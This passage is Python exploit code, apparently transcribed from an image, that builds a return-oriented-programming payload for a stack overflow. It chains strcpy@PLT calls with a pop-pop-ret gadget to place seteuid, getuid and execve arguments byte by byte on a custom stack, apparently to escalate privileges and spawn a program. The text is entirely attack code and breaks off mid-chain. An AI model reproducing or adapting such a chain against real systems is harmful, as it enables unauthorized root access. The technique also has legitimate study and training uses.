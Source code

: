 ```py
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct1)
#Below stack frames are for strcpy (to copy getuid@PLT to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(getuid_oct1)
#Below stack frames are for strcpy (to copy seteuid arg  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
#Below stack frames are for strcpy (to copy execve_arg1  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
```